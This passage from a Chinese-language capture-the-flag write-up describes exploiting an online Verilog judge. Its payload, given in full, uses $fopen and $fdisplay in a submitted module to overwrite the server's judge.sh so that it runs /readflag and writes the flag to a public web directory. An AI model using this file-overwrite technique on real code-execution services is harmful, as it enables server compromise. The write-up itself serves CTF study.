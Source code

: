 **结果**：部分成功但不稳定 ⚠️

**问题**：生产环境可能缓存模板，且需要额外的页面访问触发。

#### 尝试 3：判题脚本覆盖（成功方案）✅

**核心思路**：既然无法直接执行系统命令，那就修改执行命令的脚本！

通过 `$fopen` 完全覆盖 `/app/scripts/judge.sh`：

```verilog
integer fd;
initial begin
    fd = $fopen("/app/scripts/judge.sh", "w");
    if (fd) begin
        $fdisplay(fd, "#!/bin/sh");
        $fdisplay(fd, "set -e");
        $fdisplay(fd, "/readflag give me the flag > /app/app/presentation/public/flag.txt");
        $fdisplay(fd, "cd \"$1\"");
        $fdisplay(fd, "iverilog module.v testbench.v -o judge");
        $fdisplay(fd, "vvp judge");
        $fclose(fd);
    end
end
```

**优势**：
- 在脚本开头插入 `/readflag` 调用
- 保持原有判题逻辑，不影响后续流程
- 输出重定向到 Web 可访问的静态目录

---

## 最终利用方案

### Payload 设计

需要两次提交：

**第一次提交**：覆盖判题脚本
```verilog
`timescale 1ns/1ps
module Crossbar_2x2_4bit(
    input  [3:0] in1,
    input  [3:0] in2,
    input        control,
    output [3:0] out1,
    output [3:0] out2
);
    assign out1 = control ? in2 : in1;
    assign out2 = control ? in1 : in2;
    integer fd;
    initial begin
        fd = $fopen("/app/scripts/judge.sh", "w");
        if (fd) begin
            $fdisplay(fd, "#!/bin/sh");
            $fdisplay(fd, "set -e");
            $fdisplay(fd, "/readflag give me the flag > /app/app/presentation/public/flag.txt");
            $fdisplay(fd, "cd \"$1\"");
            $fdisplay(fd, "iverilog module.v testbench.v -o judge");
            $fdisplay(fd, "vvp judge");
            $fclose(fd);
        end
    end
endmodule
```
